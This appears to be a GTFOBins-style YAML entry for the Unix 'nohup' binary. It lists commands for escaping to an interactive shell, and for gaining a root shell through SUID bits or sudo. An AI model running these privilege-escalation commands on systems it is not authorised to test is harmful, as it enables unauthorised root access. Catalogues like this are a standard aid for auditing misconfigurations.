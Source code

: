 functions:
  shell:
    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  command:
    - code: |
        COMMAND='/usr/bin/id'
        nohup "$COMMAND"
        cat nohup.out
  suid:
    - code: ./nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
  sudo:
    - code: sudo nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
---
